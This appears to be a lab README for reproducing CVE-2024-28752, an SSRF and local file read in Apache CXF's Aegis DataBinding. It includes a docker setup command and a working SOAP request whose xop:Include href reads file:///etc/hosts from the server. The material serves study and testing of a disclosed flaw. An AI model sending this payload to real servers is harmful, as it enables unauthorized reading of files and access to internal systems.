

# Apache CXF Aegis DataBinding Server-Side Request Forgery (CVE-2024-28752)

[中文版本 (Chinese version)](README.zh-cn.md)

Apache CXF is an open-source services framework that helps you build and develop services using frontend programming
APIs like JAX-WS and JAX-RS.

A SSRF vulnerability using the Aegis DataBinding in versions of Apache CXF before 4.0.4, 3.6.3 and 3.5.8 allows an
attacker to perform SSRF style attacks on webservices that take at least one parameter of any type. This vulnerability
specifically impacts services utilizing the Aegis DataBinding, while services using other data bindings, including the
default, are unaffected. Attackers can exploit this vulnerability to access internal resources by making the server send
requests to arbitrary URLs, potentially leading to information disclosure or further attacks against internal systems.

References:

- <https://github.com/advisories/GHSA-qmgx-j96g-4428>
- <https://nvd.nist.gov/vuln/detail/CVE-2024-28752>
- <https://github.com/ReaJason/CVE-2024-28752>

## Environment Environment

Execute the following command to start a vulnerable Apache CXF webservice with Aegis DataBinding:

```
docker compose up -d
```

After the service starts, the vulnerable CXF webservice will be accessible at `http://your-ip:8080/test?wsdl`. The
service is configured to use Aegis DataBinding and accepts various parameter types, making it vulnerable to SSRF
attacks.

## Vulnerability Reproduction

Send this request to the server:

```
POST /test HTTP/1.1
Host: your-ip:8080
Content-Type: multipart/related; boundary=----kkkkkk123123213
Content-Length: 472
Connection: close

------kkkkkk123123213
Content-Disposition: form-data; name="1"

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://service.namespace/">
   <soapenv:Header/>
   <soapenv:Body>
      <web:test>
         <arg0>
<count><xop:Include xmlns:xop="http://www.w3.org/2004/08/xop/include" href="file:///etc/hosts"></xop:Include></count>
</arg0>
      </web:test>
   </soapenv:Body>
</soapenv:Envelope>
------kkkkkk123123213--
```


